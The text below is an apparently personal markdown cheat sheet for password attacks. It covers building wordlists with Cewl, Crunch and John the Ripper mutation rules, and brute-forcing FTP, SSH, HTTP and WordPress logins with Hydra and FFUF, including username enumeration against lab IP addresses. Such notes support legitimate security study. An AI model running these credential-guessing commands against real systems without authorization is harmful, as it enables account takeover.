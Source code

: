 # Generating Wordlists

**Tools:**
Cewl
Crunch
JTR

If there is a password policy that requires adding digits at the end, we will add a rule to the JTR configuration file (/etc/john/john.conf) that will mutate our wordlist, appending two digits to each password. 
Example john.conf entry:  Under `List.Rules.Wordlist`, add `$[0-9]$[0-9]` which adds two numbers at the end of the word. (Regex)  
Then run john.  
`john --wordlist=previous.txt --rules --stdout > mutated.txt`


# Bruteforce Tools

## Hydra
> Tool to bruteforce logins

### Syntax 
-L list of users, lowercase for single user
-s non standard port
-P list of passwords, lowercase for single passwo

### FTP SSH TELNET
`hydra -t 4 -l <username> -P <password path>-vV <host> <protocol>`

### HTTP Basic Auth Get Req
`hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /`  

### POST Request
**Syntax**
`hydra -L <user list> -P <password list> <host/ip> http-post-form "/<login directory>:<data sent on post request>:F=<incorrect login error>”`

**Example**
`hydra -L users.txt -P passwords.txt wordy http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordy%2Fwp-admin%2F&testcookie=1:F=ERROR"
`
## FFUF

### Bruteforce login creds
**Username Bruteforce**
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.33/customers/signup -mr "username already exists"`

**Username and Password Bruteforce**
`ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.91.33/customers/login -fc 200`

### Directory Bruteforce
`ffuf -w /path/to/wordlist -u https://target/FUZZ`
